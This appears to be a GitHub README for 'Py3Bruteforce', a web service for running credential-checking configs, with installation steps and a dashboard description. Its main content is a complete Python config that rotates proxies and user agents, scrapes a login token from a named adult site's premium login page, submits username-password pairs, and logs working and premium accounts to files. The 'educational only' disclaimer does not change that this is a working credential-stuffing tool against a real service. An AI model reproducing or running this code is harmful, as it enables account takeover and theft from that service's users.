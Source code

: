 # Py3Bruteforce a new way for bruteforcing with Python

This was made only for educational, not for hacking ! Use it at your own risk!

## About

Py3Bruteforce is a web-service which allows you to write your own configs and work with them. 
Config-size is about 70-80 lines of code.

Sample : 

  
<details>
<summary>Config sample</summary>
This is a sample config written for pornhub
  
```python
  import requests
  from utils.utils import Help
  import os,sys
  from bs4 import BeautifulSoup as soup

  # Turning off warnings
  from requests.packages.urllib3.exceptions import InsecureRequestWarning
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


  class Brute(object):
      def __init__(self):
          # ========================================
          # Project information
          self.projectName = "Porn"
          self.projectFullName = "PornHub"
          self.description = "Author : Pirate2110"
      def check(self, login, password, proxytype, proxy, timeout):
          try:
              # if proxy == null pass
              if proxy == "err":
                  print("proxerr")
                  pass
              else:
                  with requests.session() as s:
                      # All what u need for project start - here
                      # ========================================
                      # Proxy
                      if proxytype == "no":
                          proxies = None
                      elif proxytype == "burp":
                          proxies = {'https': '127.0.0.1:8080', 'http': '127.0.0.1:8080'}
                      elif proxytype == "https":
                          proxies = {'https': "http://" + proxy}
                      elif proxytype == "socks4":
                          proxies = {'https': "socks4://" + proxy}
                      elif proxytype == "socks5":
                          proxies = {'https': "socks5://" + proxy}

                      # ========================================
                      # Headers
                      headers = {'User-Agent' : Help.getRandomUa()}
                      # Token
                      r = s.get("https://rt.pornhubpremium.com/premium/login", proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      site = soup(r.text, "html.parser")
                      token = site.find("input", id="token")
                      body = {'username' : login, 'password': password, 'remember_me' : 'on', 'from':'mobile_login', 'token' : str(token['value']), 'redirect' : '', 'from' : 'pc_premium_login', 'segment':'straight'}
                      # Auth request
                      r = s.post("https://rt.pornhubpremium.com/front/authenticate", data=body, proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      # ========================================
                      # good or bad if statement
                      if "\u041d\u0435\u0432\u0435\u0440\u043d\u043e\u0435" in r.json()['message']:
                          return "bad"

                      elif r.json()['success'] == "1":
                          if "https://rt.pornhubpremium.com/premium_signup?type=PhP-Lander" in r.json()['redirect']:
                              Help.writelog("good.txt", login + ":" + password + "|" + str(r.text))
                          else:
                              Help.writelog("premium.txt", login + ":" + password + "|" + str(r.text))
                          return "good"
                          #return login + ":" + password + "|" + str(r.json()['result']['basic']) + "|" + str(r.json()['result']['bonus'])
                      else:
                          return "projerrror"
                      # ========================================
          except Exception as e:
              #  ========================================
              #  some info about error
              exc_type, exc_obj, exc_tb = sys.exc_info()
              fname = os.path.split(exc_tb.tb_frame.f_code.co_filename)[1]
              #print(e, exc_type, fname, exc_tb.tb_lineno)
              return "error"
  ```
</details>

## Dashboard screenshot :

![Dashboard](https://github.com/fukttt/fukttt.github.io/raw/main/image/1.png)

Here you can see 
* Dashboard with running projects
* Wiki (for now he is empty)
* Logs (page with logs from projects)
* Upload files (uploading module/sources/proxies)
* System info (about CPU using in graph)
* Available modules (where u can choose module and run it)

## Installation

```bash
git clone https://github.com/fukttt/py3bruteforce.git
cd pybruteforce/
pip3 install -r requirements.txt
python3 app.py
```


